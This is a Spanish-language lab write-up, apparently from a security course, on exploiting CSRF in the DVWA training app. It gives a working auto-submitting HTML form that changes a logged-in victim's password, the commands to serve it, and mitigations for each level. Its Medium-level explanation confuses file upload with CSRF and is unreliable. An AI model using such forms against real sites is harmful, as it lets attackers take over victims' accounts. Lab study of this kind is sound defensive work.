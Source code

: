 # ⛓️‍💥​ Práctica: Cross-Site Request Forgery (CSRF) en DVWA

---

# 📖 Introducción

**Cross-Site Request Forgery (CSRF)** es una vulnerabilidad que permite a un atacante realizar acciones no autorizadas en nombre de un usuario autenticado.  
Esto se logra haciendo que el navegador de la víctima envíe solicitudes maliciosas sin su consentimiento, aprovechando que ya está autenticada en la aplicación web objetivo.

Durante esta práctica, se analiza cómo explotar esta vulnerabilidad en DVWA en los niveles de seguridad **Low** y **Medium**.

---

# 🔷 Nivel de Seguridad: Low

## 📌 Descripción

En este nivel, DVWA no implementa ningún tipo de protección CSRF.  
La aplicación acepta cualquier solicitud POST válida, incluso si proviene de otro dominio o archivo local.


## 🛠️ Procedimiento

### 1. Creación del archivo malicioso

Se crea un archivo `csrf.html` con el siguiente contenido:

```html
<html>
  <body>
    <form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST">
      <input type="hidden" name="password_new" value="pass" />
      <input type="hidden" name="password_conf" value="pass" />
      <input type="hidden" name="change" value="change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Este archivo realiza un cambio de contraseña de forma automática cuando la víctima lo visita.


### 2. Servir el archivo con un servidor HTTP

```bash
python3 -m http.server 8080
```

El atacante puede enviar este enlace a la víctima. Si la víctima está autenticada, su contraseña será cambiada sin su conocimiento.


📸 **Captura de la ejecución de `csrf.html` y envío automático del formulario:**


![CSRF_low](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20low_1.png)

✅ Esto demuestra que no existe ninguna validación de origen o token para prevenir el ataque CSRF.


## 📋 Resumen

- El ataque CSRF es exitoso debido a la falta total de protección.

- El servidor acepta cualquier solicitud POST con los campos correctos.


## 🛡️ Medidas de Mitigación

- Incluir un **token CSRF único** y **aleatorio** en todos los formularios sensibles.

- Validar el **referer/origin** de las solicitudes entrantes.

- Utilizar cabeceras específicas (como `SameSite`) para cookies.

---

# 🔶 Nivel de Seguridad: Medium

## 📌 Descripción

En este nivel, DVWA introduce una medida adicional de seguridad: **restricción de tipo MIME** en las cargas, que en este caso fue usada para simular el ataque.

El atacante intenta subir un archivo `.php` con contenido malicioso que ejecuta la misma acción de cambio de contraseña.


## 🛠️ Procedimiento

### 1. Renombrar el archivo malicioso

Se renombra `csrf.html` como `csrf.php` para que pueda ser ejecutado desde el servidor al cargarlo:

```bash
mv csrf.html csrf.php
```

### 2. Servir el archivo con un servidor HTTP

Se accede al apartado de **File Upload** y se sube `csrf.php`.

DVWA en nivel Medium **permite la carga del archivo PHP**, ejecutándolo al acceder a la URL generada.



📸 **Captura tras la carga del archivo PHP malicioso:**


![CSRF_med](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20med_1.png)

✅ Esto demuestra que, aunque la protección directa contra CSRF podría haber mejorado, **la ejecución del script desde un archivo externo sigue siendo posible** al combinarlo con vulnerabilidades como File Upload.


## 📋 Resumen

- El sistema sigue siendo vulnerable mediante la combinación de CSRF y File Upload.

- La ejecución del archivo malicioso desde el servidor causa el cambio de contraseña automáticamente.


## 🛡️ Medidas de Mitigación (recomendadas adicionales)

- Restringir la carga de archivos únicamente a tipos MIME seguros (por ejemplo, imágenes).

- Evitar que se ejecuten archivos subidos desde rutas públicas.

- Aplicar validaciones de tokens CSRF y cookies con política `SameSite=strict`.


---

## 📬 Referencias

**[Brute Force](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Brute%20Force)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Command Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Command%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Content Secutiry Policy (CSP) Bypass](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Content%20Security%20Policy%20(CSP)%20Bypass)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Cross-Site Scripting (XSS)](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Cross-Site%20Scripting%20(XSS))**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[SQL Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/SQL%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Weak Session IDs](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Weak%20Session%20IDs)**

---
